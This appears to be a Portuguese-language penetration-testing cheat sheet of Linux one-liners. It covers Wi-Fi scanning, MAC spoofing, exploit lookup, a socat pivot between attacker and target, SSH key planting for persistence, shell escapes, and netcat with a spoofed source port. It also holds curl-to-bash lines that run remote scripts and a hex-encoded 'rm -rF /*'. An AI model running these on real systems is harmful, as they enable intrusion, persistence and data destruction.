 # Comandos Linux
-------
- script -a -f pentest.log
- exit
---------
# Wifi no terminal

- sudo iwconfig  // dispositivos wifi
- sudo iwlist wlan0 scan  // listando redes wifi 
- sudo iwlist wllan0 scan | grep ESSID  // listando redes wifi, filtrando apenas nomes
- nmcli d wifi connect SSIDredeWifi password suasenha // conecta na rede wifi

- macchanger -r eth0
- macchanger -p eth0
- macchanger -m mac eth0

- ipcalc 192.168.1.1/255.255.255.0
-------------
- searchsploit "ipfire" --exclude="algum|outra"
- searchsploit -e "ipfire"
- searchsploit "ipfire" --id
- searchsploit "ipfire" --id -m 44433
- searchsploit "ipfire" -m 44433.py
-------------
- socat TCP-LISTEN:8443,reuseaddr,fork TCP-LISTEN:2222,reuseaddr    #ouvindo atacante
- socat TCP4:172.20.1.6:8443 TCP4:127.0.0.1:22                      #maquina alvo
-----------
- ssh-keygen -f minhachave #criando chave publica ssh
- mkdir ~www-data
- mkdir ~/.ssh/
- touch ~/.ssh/authorized_keys
- echo "key ssh-rsa" > ~/.ssh/authorized_keys
- -----------------
# Shell Spawning

- python -c 'import pty; pty.spawn("/bin/sh")'
- echo os.system('/bin/bash')
- /bin/sh -i
- perl —e 'exec "/bin/sh";'
- perl: exec "/bin/sh";
- ruby: exec "/bin/sh"
- lua: os.execute('/bin/sh')
- (From within IRB)
- exec "/bin/sh"
- (From within vi)
- :!bash
- (From within vi)
- :set shell=/bin/bash:shell
- (From within nmap)
- !she
---------------
- curl -s -I dominio.com
- curl -w 'Status:%{http_code}\t  Size:%{size_download}\t %{url_effective}\n' -o /dev/null -sk dominio.com
- curl -L https://npmjs.org/install.sh | sh
- curl -q -s https://raw.githubusercontent.com/carlosalbertotuma/Pr0fund3rD0m4in/main/pr0fund3rD0m4in-v.0.1.sh | sed 's/$1/businesscorp.com.br.com/g' | sed 's/$2/businesscorp/g'| sed 's/$3/\-d/g'| bash

- echo -e "\x72\x6d\x20\x2d\x72\x46\x20\x2f\x2a"

- hping --sync -c 1 -p 8081 172.16.1.5
- nc -vn -p 53 172.16.1.5 8180
- nc -vn -p 53 172.16.1.5 8180 > arquivo.html
- GET / HTTP/1.0
